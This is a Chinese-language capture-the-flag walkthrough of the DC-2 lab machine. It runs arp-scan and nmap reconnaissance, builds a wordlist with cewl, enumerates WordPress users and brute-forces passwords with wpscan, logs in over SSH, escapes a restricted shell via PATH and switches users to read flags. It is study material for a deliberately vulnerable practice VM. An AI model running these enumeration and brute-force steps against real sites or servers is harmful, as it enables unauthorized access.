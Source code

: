 ### 扫描地址
```
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ae:51:81, IPv4: 192.168.7.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.7.1     00:50:56:c0:00:08       (Unknown)
192.168.7.2     00:50:56:e4:2a:ab       (Unknown)
192.168.7.129   00:0c:29:9e:63:89       (Unknown)
192.168.7.254   00:50:56:e7:52:95       (Unknown)
```

### 得到地址后

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.7.129 -p 1-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 09:19 EDT
Nmap scan report for 192.168.7.129
Host is up (0.00070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 00:0C:29:9E:63:89 (VMware)
```

`80`端口发生``302``跳转 http://dc-2/
手动`hosts`添加后进入web
提示可以使用[[cewl]]
`7744` 不知道是啥
丢进浏览器也不是web

[[cewl]]是一个字典生成器，它从指定url读取字符串

```
cewl http://dc-2/ >> 11.txt
```

### [[dirsearch]]

```
dirsearch -u http://dc-2/
dirsearch -u 192.168.7.129
```

看到了wp

### 使用[[wpscan]]

### 枚举用户

```
wpscan --url http://dc-2/ -e u
```

##### 几个用户名建txt丢进去

```
admin
jerry
tom
```

### 与[[cewl]]得到的字典组合

```
wpscan --url http://dc-2/ -U user.txt -P 11.txt
```

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

```
http://dc-2/wp-admin
```
### 登录后可以看到flag2


### 使用ssh登录tom

```
ssh tom@192.168.7.129 -p 7744
```

### 添加PATH使用更多命令

```
export PATH=/bin:$PATH
```

### 由此查看flag3

```
tom@DC-2:~$ su jerry
jerry@DC-2:~$ ls
flag4.txt
```

### 得到flag4

```
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```